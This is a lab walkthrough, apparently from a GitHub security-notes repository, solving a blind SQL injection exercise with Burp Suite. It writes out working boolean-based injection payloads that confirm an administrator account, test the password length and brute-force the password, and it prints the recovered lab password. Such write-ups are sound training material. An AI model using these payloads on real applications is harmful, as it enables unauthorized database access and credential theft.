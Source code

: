 # Lab: Blind SQL injection with conditional responses #

# Lab Description #

![image](https://github.com/anandurdas11/Web_Securityy/assets/83402050/74e7b715-abf7-407e-9f47-d2ac92fef4f3)

> We have intercepted the request using the burpsuite

  ![image](https://github.com/anandurdas11/Web_Securityy/assets/83402050/c5633966-195e-48f2-a86c-9c30715442a3)

> We send this to repeater

> We firts use the payload `' AND '1'='1` and checking whether the welcome back message comming or not

![image](https://github.com/anandurdas11/Web_Securityy/assets/83402050/a98bc57f-6772-4ebc-99e2-074d7c355395)

> And we can see that welcome back message is coming

Again we will change the payload `' AND '1'='2` checking whether the error is reflected or not

![image](https://github.com/anandurdas11/Web_Securityy/assets/83402050/7e536a9b-34d7-4417-80f1-03d145239116)


> In this we can see that welcome back is not showing

> Let's use this payload to select the user with name starting  with a `' AND (SELECT 'a' FROM users LIMIT 1)='a`

![image](https://github.com/anandurdas11/Web_Securityy/assets/83402050/14eeba98-e49a-4f72-bee9-bba9eade506b)

> So we can see that welcome back is reflected so there username with letter a let's check whether it admin or not

> `' AND (SELECT 'a' FROM users WHERE username='administrator')='a` will return a if adminstrator is there so it's true

![image](https://github.com/anandurdas11/Web_Securityy/assets/83402050/140454c8-5f1d-4ef3-9183-000d0d6bcc77)

> Let's check the password length `' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a` with this payload

 By brute we came to know password length is 20

> By brute force we found that first letter is 6

 ![image](https://github.com/anandurdas11/Web_Securityy/assets/83402050/57c63097-f321-4faf-b7b2-c91744c133ef)

> For finding the final password we will bruteforce

> We got the password

![image](https://github.com/anandurdas11/Web_Securityy/assets/83402050/e01146f5-ab23-4a0f-b89b-20a50df43140)

> password `6n6qynt8ypnmxan814k9`

![image](https://github.com/anandurdas11/Web_Securityy/assets/83402050/ab9ea0f4-9acc-4795-bc32-000c14058f71)

